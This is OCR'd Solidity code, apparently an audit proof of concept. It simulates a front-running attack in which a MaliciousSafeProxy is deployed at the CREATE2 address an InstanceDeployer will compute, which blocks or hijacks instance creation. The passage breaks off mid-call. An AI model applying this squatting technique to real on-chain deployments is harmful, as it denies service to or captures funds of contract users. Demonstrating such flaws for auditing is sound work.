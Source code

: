 ```solidity

    constructor() {
        // Deploy necessary contracts
        safeProxyFactory = new SafeProxyFactory();
        safeProxyLogic = new Safe();
        guard = new Guard();
        timelockFactory = new TimelockFactory();
        multicall3 = new Multicall3();

        // Initialize InstanceDeployer with the deployed contract addresses
        deployer = new InstanceDeployer(
            address(safeProxyFactory),
            address(safeProxyLogic),
            address(timelockFactory),
            address(guard),
            address(multicall3)
        );

        // Prepare the safeInitdata as per the deployment logic
        address[] memory owners = new address[](1);
        owners[0] = address(this);
        safeInitdata = abi.encodeWithSignature(
            "setup(address[],uint256,address,bytes,address,address,uint256,address)",
            owners,
            1,
            address(0),
            "",
            address(0),
            address(0),
            0,
            address(0)
        );

        // Calculate the creationSalt as per the deployment logic
        creationSalt = uint256(
            keccak256(
                abi.encode(
                    owners,
                    1,
                    1 days,
                    30 days,
                    address(0),
                    uint128(1 days),
                    new address[](0)
                )
            )
        );
    }

    // Function to simulate the attack
    function simulateFrontRunningAttack() external {
        // Step 1: Attacker deploys MaliciousSafeProxy at the predicted address
        bytes32 salt = keccak256(
            abi.encodePacked(keccak256(safeInitdata), creationSalt)
        );
        maliciousProxy = new MaliciousSafeProxy{salt: bytes32(salt)}(address(safeProxyLogic));

        // Step 2: Attempt to create the system instance
        // This should trigger the catch block, assuming the proxy exists at the calculated address
        deployer.createSystemInstance(
            NewInstance({
                owners: new address[](1),
                threshold: 1,
```